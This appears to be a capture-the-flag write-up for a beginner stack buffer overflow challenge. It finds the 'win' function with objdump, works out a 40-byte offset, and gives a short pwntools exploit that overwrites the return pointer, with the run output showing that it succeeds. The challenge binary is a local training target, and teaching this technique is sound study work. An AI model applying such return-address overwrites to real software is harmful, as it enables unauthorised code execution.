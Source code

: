 # 03_ret_overwrite Writeup

## Steps:
1. Run chall. Notice this is similar to 02 except we aim to overwrite the return pointer.
```
$ ./chall                                

Your goal is to modify the return pointer @ 0x7ffdb4c02078, to a function called 'win' in the binary.

A good tool to use is 'objdump'. Now is the time to learn more about it, if you don't!

0x7ffdb4c02050: 0x0000000000000000 0x0000000000000000 
0x7ffdb4c02060: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffdb4c02070: 0x0000000000000001 0x00007f829a7e5ca8 

Enter input: AAAA

0x7ffdb4c02050: 0x0000000a41414141 0x0000000000000000 
0x7ffdb4c02060: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffdb4c02070: 0x0000000000000001 0x00007f829a7e5ca8 

You failed to overwrite the return pointer.
```

2. Identify where `win` is using `objdump`
```
$ objdump -d chall
...
00000000004015c6 <win>:
  4015c6:       f3 0f 1e fa             endbr64
  4015ca:       55                      push   %rbp
  4015cb:       48 89 e5                mov    %rsp,%rbp
  4015ce:       48 8d 3d ab 0a 00 00    lea    0xaab(%rip),%rdi        # 402080 <_IO_stdin_used+0x80>
  4015d5:       e8 d6 fa ff ff          call   4010b0 <puts@plt>
  4015da:       bf 00 00 00 00          mov    $0x0,%edi
  4015df:       e8 1c fb ff ff          call   401100 <exit@plt>
...
```
3.  Determine the distance to the target variable ~ 5 sets of 8 bytes = `40` bytes
4.  Create the payload ~ 40 bytes of garbage to reach target variable then `0x004015c6` (address of `win`)
```
from pwn import *

target = process("./chall")
win = 0x004015c6

payload = b"A" * 40
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 153875
[+] Receiving all data: Done (715B)
[*] Process './chall' stopped with exit code 0 (pid 153875)

Your goal is to modify the return pointer @ 0x7ffd7944f0e8, to a function called 'win' in the binary.

A good tool to use is 'objdump'. Now is the time to learn more about it, if you don't!

0x7ffd7944f0c0: 0x0000000000000000 0x0000000000000000 
0x7ffd7944f0d0: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd7944f0e0: 0x0000000000000001 0x00007fa829137ca8 

Enter input: 
0x7ffd7944f0c0: 0x4141414141414141 0x4141414141414141 
0x7ffd7944f0d0: 0x4141414141414141 0x4141414141414141 
0x7ffd7944f0e0: 0x4141414141414141 0x00000000004015c6 

Congrats, you successuly changed execution flow!
```
